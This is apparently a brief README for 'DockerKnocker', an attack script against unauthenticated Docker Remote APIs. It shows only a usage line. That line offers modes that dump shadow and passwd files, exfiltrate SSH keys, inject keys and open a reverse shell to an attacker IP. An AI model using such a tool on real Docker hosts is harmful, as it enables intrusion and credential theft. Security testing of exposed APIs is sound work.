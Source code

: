# DockerKnocker
Exploits Unauth Docker API (Docker Remote API Detection)


```
usage: exploit.py [-h] --target TARGET --attack {dump-shadow,dump-passwd,exfil-ssh,inject-key,reverse-shell}
[--user USER] [--pubkey PUBKEY] [--listen-port LISTEN_PORT]
[--reverse-port REVERSE_PORT] [--attacker-ip ATTACKER_IP]
the following arguments are required: --target, --attack

```


This exfiltrates data out of band to an HTTP exfil server.
